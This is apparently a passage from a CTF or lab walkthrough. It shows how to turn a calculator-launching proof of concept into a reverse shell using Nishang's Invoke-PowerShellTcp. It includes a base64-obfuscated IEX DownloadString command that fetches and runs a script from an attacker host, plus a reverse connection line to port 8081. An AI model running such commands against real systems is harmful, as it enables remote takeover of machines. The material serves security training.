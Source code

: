 - Atm the script is a POC that executes calculator

- We need to change the BrowseForFile parameter:

![image26](../resources/90ea18d0d1d54095b58e9a179c3b778e.png)

**<u>Add exploit:</u>**

- First download the Nishang Invoke-PowerShellTcp.ps1 script
<https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1>

- At the bottom of the script, in order to trigger the reverse connection, we need to append:

```bash
Invoke-PowerShellTcp -Reverse -IPAddress <KALI IP> -Port 8081

```

![image27](../resources/024a0114938f4b5b83e2868bce54d6a4.png)

- Now we use Invoke-Expression to launch the ps1 file:

```powershell
Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]'+[char]58+[char]58+'UTF8.GetString([System.Convert]'+[char]58+[char]58+'FromBase64String('+[char]34+'SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8vMTAuMTAuMTQuNjYvSW52b2tlLVBvd2VyU2hlbGxUY3AucHMxIikK'+[char]34+'))')))

```
- The bold base64 text above is:

```bash
IEX (New-Object Net.WebClient).DownloadString("http://10.10.14.66/Invoke-PowerShellTcp.ps1")

```

![image28](../resources/a18b181b3c0c4dab9847bc428f11e30c.png)


![image29](../resources/f86091f06d7a4a33bcb5e0a330d95537.png)
